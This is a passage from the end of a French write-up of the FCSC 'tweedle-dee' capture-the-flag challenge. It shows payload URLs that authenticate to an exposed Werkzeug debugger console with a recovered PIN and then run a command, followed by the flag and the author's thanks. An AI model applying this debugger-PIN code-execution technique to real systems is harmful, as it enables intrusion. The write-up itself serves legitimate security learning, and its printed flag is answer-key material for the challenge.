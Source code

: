 Payload:
`https://tweedle-dee.france-cybersecurity-challenge.fr/?&__debugger__=yes&s=ezbNJnGGcodQwxNdtmUo&pin=892-048-462&cmd=pinauth`

![](https://cdn.discordapp.com/attachments/858439417743540225/1102150100664463392/image.png)

![](https://cdn.discordapp.com/attachments/858439417743540225/1102150266414977044/image.png)

Une fois le cookie généré nous allons exécuter une commande.

Payload:
`https://tweedle-dee.france-cybersecurity-challenge.fr/?__debugger__=yes&frm=111144189284128&&s=ezbNJnGGcodQwxNdtmUo&pin=892-048-462&cmd=7*7`

![](https://cdn.discordapp.com/attachments/858439417743540225/1102150892628742204/image.png)

![](https://cdn.discordapp.com/attachments/858439417743540225/1102151110615109632/image.png)

![](https://cdn.discordapp.com/attachments/858439417743540225/1102151298335395850/image.png)

**Flag:** `FCSC{2c149fdce9b3db514fa6adf094121999fea5c38fbb3370350d90925238499cf2}`

## Conclusion

J'ai beaucoup appris sur le fonctionnement de l'environnement python.

## Remerciement
Je tenais à remercier l'auteur du challenge **Bitk** j'ai énormément apprécié le challenge et la plupart de ses challenges par ailleurs. J'ai trouvé ce CTF très bénéfique pour mon apprentissage alors merci aux organisateurs et aux créateurs des challenges.
